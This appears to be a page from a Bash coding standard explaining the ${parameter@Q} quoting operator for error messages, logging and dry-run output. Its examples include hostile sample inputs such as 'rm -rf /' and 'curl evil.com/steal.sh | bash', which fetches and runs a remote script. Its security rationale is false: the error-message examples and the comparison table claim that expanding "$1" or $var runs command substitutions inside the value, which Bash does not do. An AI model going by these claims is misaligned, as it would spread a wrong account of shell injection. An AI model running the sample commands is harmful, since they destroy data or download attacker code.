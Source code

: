 ## Parameter Quoting with `${parameter@Q}`

**Use the `${parameter@Q}` operator to safely quote parameter values in error messages, logging, and debugging output.**

**Rationale:**
- Prevents command injection - safely displays user input with shell metacharacters
- Produces shell-quoted strings that can be copy-pasted back into shell
- Shows exact parameter values including whitespace and special characters without expansion

### The `@Q` Operator

**Syntax:** `${parameter@Q}`

**Function:** Expands parameter value quoted in a format re-usable as shell input.

```bash
name='hello world'
echo "${name@Q}"      # Output: 'hello world'

name="foo's bar"
echo "${name@Q}"      # Output: 'foo'\''s bar'

name='$(rm -rf /)'
echo "${name@Q}"      # Output: '$(rm -rf /)'
```

### Primary Use Cases

**1. Error Messages**

Most common use - safely display user-provided arguments:

```bash
# Without @Q - Injection risk
die 2 "Unknown option $1"
# Input: --option='`rm -rf /`'
# Output: Unknown option `rm -rf /`  (EXPANDS! Security risk!)

# With @Q - Safe
die 2 "Unknown option ${1@Q}"
# Input: --option='`rm -rf /`'
# Output: Unknown option '`rm -rf /`'  (Literal, safe)
```

**Argument validation:**
```bash
arg2() {
  if ((${#@}-1<1)) || [[ "${2:0:1}" == '-' ]]; then
    die 2 "${1@Q} requires argument"
  fi
}

arg2_num() {
  if ((${#@}-1<1)) || [[ ! "$2" =~ ^[0-9]+$ ]]; then
    die 2 "${1@Q} requires a numeric argument"
  fi
}
```

**2. Logging and Debug Output**

```bash
debug() {
  ((DEBUG)) || return 0
  local -- msg="$1"
  shift
  local -- arg
  for arg in "$@"; do
    msg+=" ${arg@Q}"
  done
  >&2 echo "[DEBUG] $msg"
}

# Usage:
debug "Processing files:" "$file1" "$file2"
# Output: [DEBUG] Processing files: 'foo bar.txt' 'test  file.txt'
```

**3. Displaying User Input**

```bash
info "You entered ${filename@Q}"
# Input: filename='file with spaces & specials'
# Output: You entered 'file with spaces & specials'

warn "Skipping invalid entry ${entry@Q}"
# Input: entry='$HOME/test'
# Output: Skipping invalid entry '$HOME/test'  (not expanded)
```

**4. Verbose/Dry-Run Mode**

```bash
run_command() {
  local -a cmd=("$@")

  if ((DRY_RUN)); then
    local -- quoted_cmd
    printf -v quoted_cmd '%s ' "${cmd[@]@Q}"
    info "[DRY-RUN] Would execute: $quoted_cmd"
    return 0
  fi

  "${cmd[@]}"
}

# Usage:
run_command rm -f "/tmp/file with spaces.txt"
# Output: [DRY-RUN] Would execute: rm -f '/tmp/file with spaces.txt'
```

### Comparison Table

| Input Value | `$var` | `"$var"` | `${var@Q}` |
|-------------|--------|----------|------------|
| `hello world` | `hello` `world` (splits) | `hello world` | `'hello world'` |
| `foo's bar` | `foos` `bar` (error) | `foo's bar` | `'foo'\''s bar'` |
| `$(date)` | *executes* | *executes* | `'$(date)'` (literal) |
| `*.txt` | *glob expands* | `*.txt` | `'*.txt'` |
| `$HOME/test` | */home/user/test* | */home/user/test* | `'$HOME/test'` (literal) |
| Empty string | *(nothing)* | `` | `''` |

### When to Use `${var@Q}`

** Use for:**
- Error messages with user input: `die 2 "Invalid option ${opt@Q}"`
- Logging user-provided values: `info "Processing ${filename@Q}"`
- Debug output: `debug "vars:" "${arr[@]@Q}"`
- Dry-run command display: `info "[DRY-RUN] ${cmd@Q}"`
- Showing validation failures: `warn "Rejecting ${input@Q}"`

** Don't use for:**
- Normal variable expansion: `process "$filename"` (not `process "${filename@Q}"`)
- Data output to stdout: `echo "$result"` (not `echo "${result@Q}"`)
- Assignments: `target="$source"` (not `target="${source@Q}"`)
- Comparisons: `[[ "$var" == "$value" ]]` (not with @Q)

### Security Example

```bash
# Vulnerable (NO @Q)
validate_input() {
  [[ -z "$1" ]] && die 2 "Option $2 requires argument"
  # Input: --name='`curl evil.com/steal.sh | bash`'
  # Executes command in error message!
}

# Safe (WITH @Q)
validate_input() {
  [[ -z "$1" ]] && die 2 "Option ${2@Q} requires argument"
  # Input: --name='`curl evil.com/steal.sh | bash`'
  # Shows literally: Option '`curl evil.com/steal.sh | bash`' requires argument
}
```

### Other `@` Operators (reference)

| Operator | Purpose | Example |
|----------|---------|---------|
| `${var@Q}` | Quote for shell reuse | `'hello world'` |
| `${var@E}` | Expand escape sequences | `$'hello\nworld'` |
| `${var@P}` | Prompt expansion | *(PS1-style)* |
| `${var@A}` | Assignment form | `var='value'` |
| `${var@a}` | Attributes | `i` |
| `${var@U}` | Uppercase | `HELLO` |
| `${var@L}` | Lowercase | `hello` |

**For BCS, `@Q` is most commonly used** for safe parameter display.

### Anti-Patterns

```bash
#  Wrong - No quoting, injection risk
die 2 "Unknown option $1"

#  Wrong - Double quotes don't prevent expansion
die 2 "Unknown option \"$1\""

#  Wrong - Manual escaping fragile
die 2 "Unknown option '$(sed "s/'/'\\\\''/g" <<<"$1")'"

#  Correct
die 2 "Unknown option ${1@Q}"
```

### Summary

**The `${parameter@Q}` operator is critical for:**
1. Security - prevents command injection in error messages
2. Clarity - shows exact values including whitespace
3. Debugging - produces re-usable shell input
4. Consistency - standard way to quote user input

**Standard pattern:** Display user input in error messages, warnings, or logs with `${parameter@Q}`.

**See also:** BCS1003 (Argument Validation), BCS0903 (Message Functions), BCS0406 (Variables in Conditionals)
